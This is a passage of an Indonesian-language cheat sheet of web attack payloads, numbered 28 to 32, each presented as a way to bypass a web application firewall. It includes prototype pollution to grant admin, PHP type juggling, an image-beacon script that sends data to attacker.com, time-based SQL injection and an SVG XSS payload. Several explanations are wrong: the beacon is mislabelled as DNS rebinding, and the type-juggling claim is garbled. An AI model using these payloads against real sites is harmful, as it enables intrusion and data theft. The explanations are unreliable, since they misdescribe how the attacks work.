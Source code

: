 
### **🛡️ 28. JavaScript Prototype Pollution Attack**  
```js
{}.__proto__.isAdmin = true;
```
**📌 Teknik:**  
✅ **Prototype Pollution** = Memodifikasi objek JavaScript global.  
✅ `__proto__.isAdmin = true;` membuat semua pengguna jadi admin.  
✅ **Bypass WAF** karena tidak terlihat seperti serangan standar.  

---

### **🛡️ 29. PHP Type Juggling for Authentication Bypass**  
```php
$passwordHash == "0"
```
**📌 Teknik:**  
✅ **Type Juggling** = Memanfaatkan kesalahan perbandingan PHP.  
✅ `"0" == "hashed_password"` bisa bernilai `true` jika tipe tidak diverifikasi.  
✅ **Bypass WAF** dengan mengeksploitasi kelemahan validasi tipe data.  

---

### **🛡️ 30. DNS Rebinding Attack**  
```js
<script> var i = new Image(); i.src="http://attacker.com/log?ip="+document.domain; </script>
```
**📌 Teknik:**  
✅ **DNS Rebinding** = Memanipulasi resolusi DNS untuk mengakses data internal.  
✅ `document.domain` mengungkap informasi situs ke penyerang.  
✅ **Bypass WAF** dengan mengandalkan teknik rekursif DNS.  

---
---

### **🛡️ 31. Time-Based SQL Injection with Conditional Execution**  
```sql
' OR IF(1=1, SLEEP(5), 0)-- -
```
**📌 Teknik:**  
✅ **Time-Based SQLi** = Mengeksploitasi waktu tunda eksekusi query.  
✅ `IF(1=1, SLEEP(5), 0)` menyebabkan penundaan jika kondisi terpenuhi.  
✅ **Bypass WAF** dengan menyembunyikan eksploit di dalam fungsi kondisional.  

---

### **🛡️ 32. JavaScript XSS via SVG File**  
```xml
<svg onload=alert(1)>
```
**📌 Teknik:**  
✅ **SVG XSS** = Menyisipkan payload dalam elemen gambar SVG.  
✅ `onload=alert(1)` memicu eksekusi JavaScript saat gambar dimuat.  
✅ **Bypass WAF** karena banyak filter hanya mendeteksi `<script>`.  

---